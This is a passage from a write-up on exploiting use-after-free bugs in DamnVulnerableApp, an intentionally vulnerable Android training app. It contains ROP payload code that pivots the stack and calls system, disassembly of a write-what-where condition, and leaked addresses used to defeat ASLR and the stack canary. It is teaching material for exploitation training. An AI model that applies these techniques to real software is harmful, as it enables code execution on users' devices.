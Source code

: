 Finally, we want to call `system@libc`, whose address is stored in `rax`. The main problem here is that just calling `system` will most likely crash the app, because `rsp` still points into the heap. If `system` uses a lot of stack memory, this will eventually invalidate heap chunks or trigger *anti - out - of - bounds* security mechanisms. Therefore, we need to restore `rsp` s.t. it points into a sufficiently large memory area that is assumed to be used by "user - code", i.e. e.g. the original stack. Observe that the [leaked addresses](#leaking-data) contained a stack pointer. We can go ahead and write the address of `system@libc` into that address and then restore the stack with a `pop rsp; ret`:
```python
# Write address of system@got.plt to stack address. rdi currently contains the command string!
payload += gadget_pop_rcx
payload += address_stack
payload += gadget_mov_deref_rcx_rax # <-- rax = system@libc

# Restore stack. This gadget implicitly calls system
payload += gadget_pop_rsp
payload += address_stack
```

This exploit is **very** specific to this module, but it uses a technique that shifts the stack into a user - controlled memory region s.t. successive `ret` - instructions result in execution of ROP - gadgets.

## Coming back from *UseAfterFreeExecModule*

The technique used to exploit the UAF vulnerability in the *UseAfterFreeExecModule* might be applicable to *libUseAfterFreeWriteModule* aswell. General steps are:
1. Setup a ROP - chain in readable/writeable memory area. In this case, this will be in a shared memory region somewhere is `libart.so`.
2. Next, overwrite `rsp` to point to the above mentioned memory region. Then immediately return using `ret`.
3. Enjoy the ROP - chain

It turns out that this does not work by itself. As we can only write one qword in each function call, we can either overwrite the return address to trigger execution of e.g. a gadget or set the stack pointer, but **not** both at once. Therefore, we need to do a little magic to make things work.

The key observation is that `rbp` is often used to restore `rsp` in function epilogues. This is precisely what happens in the caller of `storePair`! See the following assembly of `storePair`:
```
gef➤  disassemble Java_com_damnvulnerableapp_vulnerable_modules_UseAfterFreeWriteModule_storePair 
    ...
    0x0000730b9ed59abd <+205>:	mov    rcx,QWORD PTR [rbp-0x50]
    0x0000730b9ed59ac1 <+209>:	mov    rax,QWORD PTR [rbp-0x58]
    0x0000730b9ed59ac5 <+213>:	mov    rax,QWORD PTR [rax]
    0x0000730b9ed59ac8 <+216>:	mov    QWORD PTR [rax],rcx      <--- write - what - where condition
    0x0000730b9ed59acb <+219>:	mov    rdi,QWORD PTR [rbp-0x38]
    0x0000730b9ed59acf <+223>:	mov    rax,QWORD PTR [rdi]
    0x0000730b9ed59ad2 <+226>:	mov    rax,QWORD PTR [rax+0x600]
    0x0000730b9ed59ad9 <+233>:	mov    rsi,QWORD PTR [rbp-0x48]
    0x0000730b9ed59add <+237>:	mov    rdx,QWORD PTR [rbp-0x70]
    0x0000730b9ed59ae1 <+241>:	mov    ecx,0x2
    0x0000730b9ed59ae6 <+246>:	call   rax
    0x0000730b9ed59ae8 <+248>:	mov    rdi,QWORD PTR [rbp-0x60]
    0x0000730b9ed59aec <+252>:	call   0x730b9ed59b90 <free@plt>
    0x0000730b9ed59af1 <+257>:	mov    rax,QWORD PTR fs:0x28
    0x0000730b9ed59afa <+266>:	mov    rcx,QWORD PTR [rbp-0x8]
    0x0000730b9ed59afe <+270>:	cmp    rax,rcx
    0x0000730b9ed59b01 <+273>:	jne    0x730b9ed59b0d <Java_com_damnvulnerableapp_vulnerable_modules_UseAfterFreeWriteModule_storePair+285>
    0x0000730b9ed59b07 <+279>:	add    rsp,0x70
    0x0000730b9ed59b0b <+283>:	pop    rbp               <--- restore old rbp of calling function
    0x0000730b9ed59b0c <+284>:	ret    
```


[0]: 0x730b9b7a371e     --|
[1]: 0x730b9b7a372a       | --> from `.rodata`, thus 0x730b9b7a371e - 0x71e = libUseAfterFreeWriteModule.so
[2]: 0x730b9b7a3710       |
[3]: 0x730b9b7a3735     --|
[4]: 0x730b993ba990     --> stack address: array of example strings
[5]: 0x2147eb93990de82b --> 8 byte canary
[6]: 0x730b993ba8c0     --> stack address: stored `rbp`
[7]: 0x730c0379ffac     --> `art_quick_generic_jni_trampoline+220`, thus 0x730c0379fed0 = `art_quick_generic_jni_trampoline` and `libart.so = 0x730c03400000`
[0]: 0x730b9d3c874e     <-- ptr: "amazing_key"
[1]: 0x730b9d3c875a     <-- ptr: "secret_key"
[2]: 0x730b9d3c8740     <-- ptr: "topsecret_key"
[3]: 0x730b9d3c8765     <-- ptr: "a_very_very_long_key_with_fancy_features_:D"
[4]: 0x730b9afdf9a0     <-- stack address: most likely examples
[5]: 0x2147eb93990de82b <-- looks more like a canary
[6]: 0x730b9afdf8d0     <-- stack address: stored rbp
[7]: 0x730c0379ffac     <-- return address